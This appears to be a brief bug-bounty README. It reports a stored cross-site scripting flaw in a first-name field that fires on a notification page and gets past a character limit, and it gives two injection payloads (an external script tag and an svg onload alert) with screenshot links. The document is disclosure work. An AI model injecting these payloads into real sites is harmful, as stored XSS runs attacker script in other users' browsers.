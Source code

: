# -hack1chall
STORED XSS in frist name on page notification bypass limit character

`<script src=url.js/>` 
`<svg onload=alert(1) />` 


![1](/Screenshot_2020-11-12%20Your%20tournaments%20-%20Challonge.png)
![2](/Screenshot_2020-11-12_08-35-57.png)
